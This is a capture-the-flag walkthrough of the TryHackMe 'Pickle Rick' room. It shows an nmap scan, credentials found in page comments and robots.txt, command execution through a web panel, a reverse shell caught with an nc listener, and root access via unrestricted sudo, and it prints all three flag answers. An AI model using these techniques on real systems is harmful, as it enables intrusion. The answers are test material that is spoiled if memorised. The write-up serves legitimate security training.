



# Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

Room URL: https://tryhackme.com/room/picklerick

---

# Task 1

nmap shows there's two open ports. The challenge hints at using gobuster, so
let's run gobuster while starting assigment 1.

```bash
nmap -sC -sV 10.10.4.29
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 13:08 CEST
Nmap scan report for 10.10.4.29
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c8:f2:13:e8:57:74:33:37:bc:4d:86:f5:5d:15:bb:81 (RSA)
|   256 60:ce:fa:70:29:a4:c2:97:ad:8a:61:4d:f2:86:8e:06 (ECDSA)
|_  256 2f:12:7d:88:22:0e:0f:bd:73:78:27:f4:2c:b6:06:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

1. What is the first ingredient Rick needs?

The page source of the index shows a commented html section. Maybe that'll be
useful later.

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

`gobuster` reveals several pages:

```
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
```

The `portal.php` page redirefcts us to `login.php` so let's focus on there. We
already found a username in the index and the `robots.txt` contains an odd
string, maybe that's the password? Yes!

Now we're on the `portal.php` page which has a command panel to maybe execute
commands? Yes!



Let's try and cat that super secret ingredient. So.. that doesn't work.



Luckily there's multiple ways of getting to output the contents of that file,
lets try `head` and `tail`. No luck. Seems we're lucky by using `grep ''
Sup3rS3cretPickl3Ingred.txt`

```
mr. meeseek hair
```

2. Whats the second ingredient Rick needs?

Seeing there's not much else on this website, let's try to get a reverse shell.
I can't use `netcat` for this, because it's disabled just like `head`. Luckily
[pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
has some great examples. It seems we can use the `python3` binary.



```bash
$ nc -lnvp 9999
Connection from 10.10.4.29:43356
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
$ cat clue.txt
Look around the file system for the other ingredient.
```

After trying some find for all txt files without result, I checked out the
homedirs, and lo and behold, the homedir of rick has the ingredient.

```
$ cat /home/rick/second\ ingredients
1 jerry tear
```

```
1 jerry tear
```

3. Whats the final ingredient Rick needs?

I'm guessing this last one is in `/root` so let's try and privesc.

`sudo -l` shows we can basically do anything we like

```bash
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-4-29.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-4-29.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```bash
$ sudo ls /root
3rd.txt
snap
$ sudo cat /root/3rd.txt
3rd ingredients: fleeb juice
```

```
fleeb juice
```
